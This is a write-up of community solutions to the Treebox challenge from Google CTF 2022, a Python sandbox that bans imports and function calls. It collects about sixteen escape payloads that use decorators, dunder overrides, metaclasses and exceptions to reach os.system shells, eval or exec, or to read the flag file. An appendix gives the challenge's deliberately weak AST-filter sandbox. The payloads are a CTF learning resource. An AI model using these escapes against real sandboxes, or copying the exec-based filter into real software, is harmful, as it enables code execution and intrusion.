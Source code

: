 ## Treebox (Misc) - Google CTF 2022

Everybody's solutions were so interesting that I had to collate them all.

### Python Sandbox Constraints

- no imports
- no function calls

### Solutions

1. @Enyei

```python
@eval
@input
def lol():
  pass
...
print(open('./flag').read())
```

2. @free food

```python
class a:
  pass
a.__class_getitem__ = exec
a["os.system('bash')"]
```

3. @zeyu2001

- Close but not close enough

```python
os.environ['PYTHONINSPECT'] = 'a'
```

- if this environment variable is set, it turns the python into interactive mode, but does not work against remote (probably needs a proper tty shell)

4. @Trixter

```python
class A(BaseException):
    def __init__(self):
        self.__class__.__add__ = os.system

    def __str__(self):
        return self + "cat flag"

raise A
```

- `raise A` instantiates the

5. @splitline

```python
@eval
@'__import__("os").system("sh")'.format
class _:pass
```

6. @Blupper

```python
sys.stdout.flush=sys.breakpointhook
```

7. @fourleggedoctopus

```python
__builtins__.__dict__["license"]._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
    pass
```

8. @aza

- very similar concept to payload number 2

```python
class T(BaseException):
    __getitem__=os.system

try:
    raise T
except T as e:
    e['cat flag']
```

9. @dogelition_main

- dunder methods and metaclasses

```python
class MyClass(type):
    __instancecheck__ = os.system

class MyClass2(metaclass=MyClass):
    pass

match "/bin/sh":
    case MyClass2():
        pass
```

10. @ContronThePanda

```python
def os_str(x): return 'os'

@__import__
@os_str
def os(): pass

def cmd_str(x): return 'cat flag'

@os.system
@cmd_str
def ret(): pass
```

- use of decorators which was well explained by @BitShift in the discord channel (I'm basically copying his response)
- decorators mean: please call the function I just named, passing the thing I decorated as the first arg

```python
@foo
def bar():
  pass
```

is equivalent to

```python
def tmp_bar():
  pass

bar = foo(bar)
```

11. @OfficialBenko

```python
class Exploit(BaseException):
    pass

Exploit.__eq__ = open
Exploit.__gt__ = print

try:
    raise Exploit
except Exploit as exploit:
    a = exploit == "flag"
    Exploit.__lt__ = a.read
    b = exploit < None
    exploit > b
```

12. @harrier

```python
global os
class M(type):
    self = "ls"
    pass
class A(metaclass=M):
    pass
M.__add__ = os.system
assert f"{A + 'sh'}" == True
```

13. [Author's Solution](https://github.com/google/google-ctf/blob/master/2022/sandbox-treebox/healthcheck/solution.py)

```python
class X():
  def __init__(self, a, b, c, d, e):
    self += "print(open('flag').read())"
  __iadd__ = eval
__builtins__.__import__ = X
{}[1337]
```

14. @Theos (not his)

```python
@exec
@input
class x:0
...
print(open('./flag').read())
```

15. @Quenouille

```python
license._Printer__filenames = ['flag']
sys.stderr.flush = license
x = 6/0
```

16. @温柔小 🐖

```python
os.environ.__class__.__contains__ = os.system
'cat flag' in os.environ
```

16. @crazyman

```python
tree.__class__.__getitem__ = eval
tree["__import__('os').system('cat flag')"]
```

- more concise version of payload number 2

### Appendix

Source code

```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)

```
